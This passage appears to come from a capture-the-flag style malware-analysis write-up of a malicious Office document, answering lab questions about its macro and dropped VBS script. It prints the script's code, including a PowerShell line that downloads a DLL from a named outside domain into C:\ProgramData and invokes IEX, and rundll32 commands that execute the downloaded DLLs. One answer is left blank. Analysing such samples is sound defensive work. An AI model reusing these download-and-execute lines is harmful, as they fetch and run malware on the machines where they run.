 The macro extracts the `Caption` text from a form object named "t2" and writes it to `C:\ProgramData\pin.vbs`. It then uses `cmd.exe` to execute the script via `cscript.exe`.

**Observations:**  
- **Q4:** Find the command located in the ‘fun’ field: `cmd /k cscript.exe C:\ProgramData\pin.vbs`.

---

#### **Code Analysis**  
The extracted Visual Basic script (`pin.vbs`) performs the following actions:

1. **Initial Delay:**  
   The script waits for 4 seconds before proceeding. The purpose of this delay is unclear, as no prior actions are required to complete.

   ```vb
   WAITPLZ = DateAdd('s', 4, Now())
   Do Until (Now() > WAITPLZ)
   Loop
   ```

2. **Downloading DLLs:**  
   The script defines five obfuscated PowerShell commands (`LL1` through `LL5`) that download `.dll` files from attacker-controlled domains and save them to `C:\ProgramData`.

   ```powershell
   $FOOX = '(New-Object Net.WebClient).DownloadFile(''https://priyacareers.com/u9hDQN9Yy7g/pt.html'',''C:\ProgramData\www1.dll'')';
   IEX $FOOX | IEX;
   ```

3. **Executing DLLs:**  
   The script creates a `WScript.Shell` object to execute the downloaded `.dll` files using `rundll32.exe`.

   ```vb
   Set Shell = CreateObject("wscript.shell")
   Shell.Run "powershell" + LL1, 0
   Shell.Run "powershell" + LL2, 0
   ```

   After ensuring all downloads are complete, the script executes the `.dll` files:

   ```vb
   OK1 = "cmd /c rundll32.exe C:\ProgramData\www1.dll,ldr"
   Ran.Run OK1, 0
   OK2 = "cmd /c rundll32.exe C:\ProgramData\www2.dll,ldr"
   Ran.Run OK2, 0
   ```

**Observations:**  
- **Q5:** Provide the first domain found in the maldoc: `priyacareers.com`.  
- **Q6:** Provide the second domain found in the maldoc: *(Answer based on analysis.)*  
- **Q7:** Provide the name of the first malicious DLL it retrieves from the C2 server: `www1.dll`.  
- **Q8:** How many DLLs does the maldoc retrieve from the domains? `5`.  
- **Q9:** Provide the path of where the malicious DLLs are getting dropped onto: `C:\ProgramData`.  
- **Q10:** What program is it using to run DLLs? `rundll32.exe`.  
- **Q11:** How many seconds does the function in the maldoc sleep for to fully execute the malicious DLLs? `4`.
